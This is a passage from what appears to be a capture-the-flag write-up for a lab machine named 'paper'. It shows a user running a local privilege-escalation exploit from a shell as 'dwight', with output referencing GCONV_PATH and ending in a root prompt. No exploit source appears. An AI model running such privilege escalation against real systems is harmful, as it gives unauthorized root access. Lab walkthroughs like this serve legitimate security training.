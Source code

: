 
Back in the shell as dwight, I'll try the exploit again:



    [dwight@paper shm]$ ./exploit 
    Current User before execute exploit
    hacker@victim$whoami: dwight
    Exploit written by @luijait (0x6c75696a616974)mkdir: cannot create directory ‘GCONV_PATH=.’: File exists

    [+] Enjoy your root if exploit was completed successfully
    [root@paper shm]#



It works and returns a root shell.





